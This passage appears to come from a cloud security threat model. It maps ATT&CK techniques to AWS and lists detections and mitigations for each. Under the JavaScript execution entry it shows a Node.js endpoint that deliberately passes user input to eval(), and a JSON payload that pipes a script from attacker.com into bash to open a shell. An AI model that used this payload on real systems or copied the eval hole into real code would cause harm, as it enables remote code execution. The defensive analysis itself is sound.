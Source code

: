 *Mitigation*:
- Automated dependency scanning in CI/CD (Snyk, Dependabot)
- Container image scanning (AWS ECR image scanning)
- AWS WAF rules for common CVEs
- Immutable infrastructure (containers rebuilt nightly with latest patches)

**T1078: Valid Accounts (Cloud Accounts)**
*Example*: Attacker obtains valid AWS IAM credentials
*Cloud Context*:
- Developer accidentally commits AWS access key to public GitHub repo
- Automated bots find credentials within minutes
- Attacker uses credentials to access AWS resources

*Detection*:
- AWS GuardDuty: "UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration"
- CloudTrail logs showing API calls from unusual geolocations
- Billing alerts for unexpected resource usage (crypto mining)

*Mitigation*:
- Git secrets scanning (git-secrets, gitleaks)
- AWS IAM Access Analyzer
- Short-lived credentials only (STS temporary credentials)
- IP allowlisting for IAM users
- MFA enforcement for all IAM users

**Tactic: Execution**

**T1059.007: Command and Scripting Interpreter (JavaScript)**
*Example*: Attacker achieves code injection in Node.js application
*Cloud Context*:
```javascript
// Vulnerable code - eval() with user input
app.post('/api/calculate', (req, res) => {
  const result = eval(req.body.expression); // 🚨
  res.json({ result });
});
```

*Attack*:
```json
{
  "expression": "require('child_process').exec('curl http://attacker.com/shell.sh | bash')"
}
```

*Result*: Attacker executes arbitrary OS commands in ECS container, establishes reverse shell

*Detection*:
- Runtime security monitoring (Falco, AWS GuardDuty for ECS)
- Unexpected network connections from containers
- Process monitoring showing unusual child processes

*Mitigation*:
- Never use `eval()`, `Function()`, `vm.runInContext()` with user input
- Input validation and sanitization
- Least-privilege container runtime (non-root user, read-only filesystem)
- Network egress controls (containers can only access specific AWS services)
